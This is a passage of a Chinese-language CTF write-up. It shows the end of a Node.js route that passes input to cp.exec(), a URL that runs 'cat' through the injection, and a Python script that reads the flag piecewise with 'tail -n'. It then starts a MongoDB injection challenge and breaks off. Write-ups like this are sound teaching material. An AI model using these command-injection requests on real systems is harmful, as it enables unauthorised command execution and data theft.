    res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
  }

});

function secure (str) {
  return str.replace(/[^\d\-a-zA-Z ]/g, '');
}

module.exports = router;
  
{% endhighlight %}  

可以发现这里有个很明显的命令执行：

{% highlight javascript %}

cp.exec()

{% endhighlight %}
	
可直接cat数据：
	
	http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci=cat
	
但是程序默认只返回命令执行结果的5行，因此写个程序来循环读取flag（通过测试flag有143行）：

{% highlight python %}

#!/usr/bin/env python
# coding: utf-8

import requests

outfile = open('flag.txt', 'w')
r_url = 'http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci='
n = 143
r = n / 5 + 1
for i in range(r):
    response = requests.get(r_url + 'tail -n %s' % str(n))
    #print r_url + 'tail -n %s' % str(n)
    m = response.content
    outfile.write(m + '\n')
    n -= 5

{% endhighlight %}
	    
flag：``hctf{Ar3_you_an_op3nsourc3_1ov3r?}``

##LOCK（300pt）

题目是个登陆框，且注释里有tips：

	<!-- wtf!! The key is the same as lock !! Can someone help to find the right lock ?!!!-->
	
随即登陆，得到返回信息：

	It seeeeeeemed the lock is not right!!!(╯°□°）╯︵ ┻━┻

后排出普通sql注入，发现服务器上有开放27017（mongodb端口），因此开始mongodb注入尝试，通过post数据：
